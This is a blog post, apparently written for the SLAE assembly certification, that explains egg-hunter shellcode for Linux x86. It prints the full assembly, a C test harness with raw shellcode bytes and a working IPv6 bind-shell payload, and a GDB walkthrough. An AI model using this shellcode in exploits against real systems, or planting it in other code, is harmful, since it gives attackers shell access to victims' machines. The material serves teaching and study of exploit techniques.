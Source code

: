 ```yaml
---
layout: post
title: SHELLCODE_EGG_HUNTER – LINUX/X86
excerpt_separator: <!--more-->
---
```

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert Certification
* Student ID: SLAE-1233
* Assignment: 3
* Github: [Kartik Durg](https://github.com/kartikdurg)
<!--more-->

___

#### WHAT IS AN EGG-HUNTER?
The “Egg-Hunter” is a technique used to search for an unique “tag” that was prefixed with the large shellcode and start the execution of shellcode once found.

#### WHY DO WE NEED EGG-HUNTER?
For example, let us assume that you have found a buffer-overflow vulnerability and there is no enough memory space for our bind/reverse shellcode. To solve this problem a unique “tag” is prefixed with our shellcode and then execute “Egg Hunter” shellcode  that is small in size, fast and robust at the same time, this “Egg-Hunter” will search our unique “tag” and starts the execution of large shellcode(bind/reverse) once found.

In this post I will be implementing the “sigaction(2)” approach as discussed by Skape in the [Safely Searching Process Virtual Address Space](http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf) research paper.

The “sigaction(2)” prototype is as follows:
```
int sigaction(int signum, const struct sigaction *act, struct sigaction *oldact);
```

The EAX register should hold the system call number of “sigaction” as defined below:
```
#define __NR_sigaction 67 [0x43]
```

The goal here is to use the structure of act being in the ECX register for validating the region of memory.

Now let’s jump into the implementation which is as follows:
```
global _start
section .text

_start:
xor ecx, ecx             ;zero out ecx

page_allign: 
xor cx, 0x0fff           ;Page allignment

valid_add: 
inc ecx                  ;increment the pointer to try next valid address
push 0x43                ;push syscall 67 | sigaction
pop eax                  ;EAX=0x43
int 0x80                 ;call sigaction() for validation

efault_cmpsn:
cmp al, 0xf2             ;Low-byte of EAX compared against 0xf2|EFAULT
jz page_allign           ;If ZF set JMP back to "page_allign"

search_tag:
mov eax, 0x4a424f59      ;move the "tag" to EAX register| 0x4a424f59 = JBOY
mov edi, ecx             ;move ECX to EDI
scasd                    ;Compare contents of EDI to the dword value in EAX and increment
jnz valid_add            ;Not equal? then go back to valid_add
scasd                    ;Compare contents of EDI to the dword value in EAX and increment
jnz valid_add            ;Not equal? then go back to valid_add
jmp edi                  ;TAG found ==> Execute the shellcode I'm pointing to
```

To understand this concept, let’s analyze the complete shellcode below:

```
#include <stdio.h> 
#include <string.h> 

#define JBOY "\x59\x4f\x42\x4a"

//Egg-Hunter shellcode
unsigned char egg_hunter[] = "\x31\xc9\x66\x81\xf1\xff\x0f\x41\x6a\x43\x58\xcd\x80\x3c\xf2\x74\xf1\xb8\x59\x4f\x42\x4a\x89\xcf\xaf\x75\xec\xaf\x75\xe9\xff\xe7";

//Bind shell(IPv6)
unsigned char egg[] = JBOY JBOY
"\x6a\x66\x58\x31\xdb\x6a\x06\x6a\x01\x6a\x0a\x43\x89\xe1\xcd\x80\x96\x31\xc0\x50\x50\x50\x50\x50\x66\x68\x11\x5c\x66\x6a\x0a\x89\xe1\x6a\x1c\x51\x56\x89\xe1\x43\x6a\x66\x58\xcd\x80\x53\x56\x89\xe1\x43\x43\x6a\x66\x58\xcd\x80\x99\x52\x52\x56\x89\xe1\x43\x6a\x66\x58\xcd\x80\x93\x6a\x02\x59\x6a\x3f\x58\xcd\x80\x49\x79\xf8\x31\xc9\x51\x6a\x0b\x58\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80";

int main() 
{ 
printf("Egg is at %p\n", egg); 
printf("Egghunter size: %d\n", strlen(egg_hunter)); 
int (*ret)() = (int(*)())egg_hunter; 
ret(); 
}
```

The above shellcode will execute bind shell once the “tag”(JBOY) is identified by our egg-hunter shellcode.

Let’s run the shellcode using GDB and setup a break point at “main” and “egg_hunter”:

![](/media/3-egg-hunter-1.jpg)

Now that we have reached the breakpoint which points to our “Egg-Hunter” shellcode, let us also define a “hook-stop” to examine EAX, ECX and EDI registers every time the execution stops.

![](/media/3-egg-hunter-2.jpg)

After the first XOR instruction, the next two instruction performs page alignment operation by XORing “0xfff” on lower 16-bits of ECX and then incrementing ECX by one.  As noticed in the screenshot below, this operation is equivalent to adding “0x1000” to ECX register.

![](/media/3-egg-hunter-3.jpg)

After the page alignment operation, the lower 16-bit of EAX register is initialized to 0x43[67] which is a system call number of “sigaction” and once the system call is executed it’s return value is then compared with 0xf2 which represents the lower byte of EFAULT. If the lower byte of EAX is equal to 0xf2 the implementation again jumps back to XOR “0xfff” on lower 16-bits of ECX as seen below:

![](/media/3-egg-hunter-4.jpg)

Implementation when lower byte of EAX is “not-equal” to 0xf2:

![](/media/3-egg-hunter-5.jpg)

The value of valid pointer is stored in EDI register after moving the “tag” to EAX register. Next, the scasd instruction compares the contents of memory stored in EDI to the DWORD value in EAX(unique tag).

Instead of stepping through each and every instruction let’s setup a breakpoint on second scasd instruction and continue the execution.

![](/media/3-egg-hunter-6.jpg)

Now that the scasd instruction has been executed twice, the value of EDI will be 8-bytes apart pointing at our shellcode(bind/reverse or any other) as seen below:

![](/media/3-egg-hunter-7.jpg)

Execution of large payload (bind shell):

![](/media/3-egg-hunter-8.jpg)

___

### PROOF OF CONCEPT:

![](/media/3-egg-hunter-9.jpg)

The size of “Egg-hunter” shellcode is just 32-bytes when compared to the original size of  bind shell which is 100-bytes, thus allowing us to execute larger payload when the available memory space is less than payload.

___

Link to shellcode.c: [egg_hunter.c](https://github.com/kartikdurg/SLAE/blob/master/Assignment_0x3/egg_hunter.c)

Link to shellcode.asm: [egg_hunter.asm](https://github.com/kartikdurg/SLAE/blob/master/Assignment_0x3/egg_hunter.asm)

Thank you for reading 🙂

– Kartik Durg